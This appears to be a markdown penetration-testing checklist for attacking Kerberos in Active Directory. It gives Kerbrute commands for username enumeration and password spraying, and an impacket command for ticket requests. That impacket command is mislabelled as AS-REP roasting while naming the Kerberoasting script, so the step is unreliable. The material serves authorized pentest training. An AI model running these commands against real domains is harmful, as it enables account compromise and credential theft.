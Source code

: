 # Kerberos Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating Kerberos, I realistically expect to find:

- [ ] Valid domain usernames (confirmed via Kerbrute userenum)
- [ ] Weak or common passwords via password spraying
- [ ] Accounts vulnerable to AS-REP roasting (no pre-authentication required)
- [ ] Kerberos service tickets (TGS) for potential offline cracking (Kerberoasting)
- [ ] Domain controller IP and hostname for further attacks
- [ ] Information about domain structure for lateral movement planning

---

## ✅ Kerberos Pentest Checklist

- [ ] **User Enumeration with Kerbrute**
  - Identify valid usernames against the domain controller.
    ```bash
    /opt/kerbrute/kerbrute_linux_amd64 userenum --dc <DC_IP> -d <DOMAIN> /path/to/userlist.txt -o users.txt
    ```

- [ ] **Password Spray with Kerbrute**
    ```bash
    /opt/kerbrute/kerbrute_linux_amd64 passwordspray --dc <DC_IP> -d <DOMAIN> users.txt <password>
    ```

- [ ] **Check for AS-REP Roasting**
  - Identify accounts without Kerberos pre-authentication required.
    ```bash
    python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN>/<USER>
    ```

